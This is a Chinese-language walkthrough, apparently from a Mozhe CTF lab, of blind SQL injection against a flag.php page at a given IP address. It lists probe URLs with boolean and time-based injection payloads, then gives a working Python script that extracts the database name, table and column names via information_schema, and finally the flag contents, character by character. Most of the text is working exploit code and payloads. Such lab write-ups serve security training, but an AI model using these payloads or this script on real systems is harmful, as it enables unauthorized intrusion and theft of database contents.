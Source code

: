 日常检测注入类型
http://219.153.49.228:40947/flag.php?type=1  // 帮墨者找到

http://219.153.49.228:40947/flag.php?type=1'  // 墨者的任性网页!

http://219.153.49.228:40947/flag.php?type=1' and 1 = 2 // 帮墨者找到   //猜测是类似于错误的页面

http://219.153.49.228:40947/flag.php?type=1 and 1 = 1 --+ // 墨者的任性网页!

http://219.153.49.228:40947/flag.php?type=1 and ascii(substr(database(),1,1)) > 500 --+ // 墨者的任性网页!  没有数据 名称是0  有数据 名称是id值

可以用基于时间的盲注，单没必要
http://219.153.49.228:41969/flag.php?type=1 and if(ascii(substr(database(),0,1)) = 32,sleep(500),1) --+

直接根据名称显示是否是0来进行盲注
Python 代码
import requests
import re
import os
import urllib.parse

all = 32
#发送payload
def sendPayload(payload):
    print(payload)
    r = requests.get(payload)
    return r.text

#拼装payload-时间盲注
def buildPayload(payload):
    #http://219.153.49.228:41160/flag.php?type=1 and ascii(substr(database(),{index1},1)) > {index2}
    resultChr = ''
    for index1 in range(1,100):
        payload1 = payload.replace('{index1}',str(index1))
        for index2 in range(32,127):
            result = sendPayload(payload1.replace('{index2}',str(index2)))
            if not rex(result,'0'):
                resultChr+=chr(index2)
                break
            elif index2 == 126:
                return resultChr
    return resultChr
                
            
def rex(text,restr):
    result = re.findall(restr,text)
    if len(result) == 1:
        return 1
    else:
        return 0


url1='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr(database(),{index1},1)) = {index2} --+' #pentesterlab
url2='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()),{index1},1)) = {index2} --+' # comment,flag,goods,user
url3='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = "flag"),{index1},1)) = {index2} --+' # id,flag
url4='http://219.153.49.228:40947/flag.php?type=1 and ascii(substr((select group_concat(flag) from flag),{index1},1)) = {index2} --+' # id,flag

result = buildPayload(url4)
print(result)



